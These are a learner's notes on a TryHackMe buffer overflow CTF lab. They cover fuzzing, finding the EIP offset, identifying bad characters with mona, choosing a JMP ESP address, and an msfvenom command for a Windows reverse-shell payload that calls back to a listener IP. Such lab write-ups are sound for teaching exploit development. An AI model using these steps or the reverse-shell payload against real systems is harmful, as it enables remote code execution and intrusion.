 # Buffer Overflow Notes

## Fuzzing
- Trying to get the maximum length of strings that the server can handle with. In my case, the value was 2000

## Controlling EIP
- Find which byte represents the EIP
- Send a long message (to crash the server), but 4 in 4 chars are different
- Creating the payload:
    - `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l MAX+400`
- Locate in EIP memory cell which 4 long string is storing
- String Hex: 6F43396E

## Find the index 
- Now that I have the String Hex, I'm going to use `pattern_offset` to find the index:
```bash
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/BufferOverflowPrep]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 6F43396E 
[*] Exact match at offset 1978
```

## Checking EIP
- To check if the index is correct, I'm going to insert a lot of _AAAA_'s and in the position 1978 the sequence _BBBB_

## Find Bad Characters
- These caracters makes the program stopps, like a "\x00", "eof", and other things in computting
- To check these characters, I'm going to create a payload that have all the possible bytes, and if the ESP register points into some of these bytes, it is a Bad Character
- I'm goint to create a list of these bad characters
- Creating the array of characters with `bytearray(range(1,256))`
- ESP: 01A8FA30
- Using `mona`, it's possible to check which are the BadChars:
    - `!mona compare -f c:\mona\oscp\bytearray.bin -a 01A8FA30`
    - 00 07 08 2e 2f a0 a1
- Not all of them're Bad Chars. Bad chars corrupt the next char, so the bad chars are: 
    - 00 07 2e a0
- Removing them from the payload

## Without Bad Characters
- Reloading the payload without the bad chars to check if they disappear

## Finding a Jump Point
- Run mona command to find it:
    - `!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"`
- Finding instructions that doesn't contain the bad characters and are _JMP_ instructions
- Jump Point: 625011AF
- Writing as bytes: \x62\x50\x11\xaf
- Writing backwards (little-endian system): \xaf\x11\x50\x62
- Making `retn = "\xaf\x11\x50\x62"`

## Creating the revshell payload
- `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.24.206 LPORT=4444 -b '\x00\x07\x2e\xa0' EXITFUNC=thread -f python`

## Prepend NOPs
- Creating space for storing the payload
- Using NOP

## Rev Shell
- After running the payload, with `netcat` active, I got a shell =D

